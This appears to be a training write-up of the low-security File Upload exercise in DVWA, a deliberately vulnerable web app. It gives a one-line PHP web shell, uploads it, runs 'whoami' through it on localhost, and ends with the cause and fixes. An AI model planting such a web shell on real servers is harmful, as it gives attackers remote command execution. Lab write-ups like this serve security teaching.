


# DVWA File Upload - Low

## Step 1
Create a PHP web shell.

```php
<?php system($_GET['cmd']); ?>
```



## Step 2
Upload `shell.php` through the File Upload page.



## Step 3
Access the uploaded file and execute a system command.

```text
http://localhost/DVWA/hackable/uploads/shell.php?cmd=whoami
```


## Result
Successfully achieved command execution through the uploaded PHP file.

Output:

```text
www-data
```

## Reason
The application performs no validation on uploaded files and allows arbitrary files to be stored inside a web-accessible directory. Uploaded PHP files are executed by the server.

## Fix
- Allow only approved file extensions.
- Verify MIME types and file signatures.
- Rename uploaded files.
- Store uploads outside the web root.
- Disable script execution in upload directories.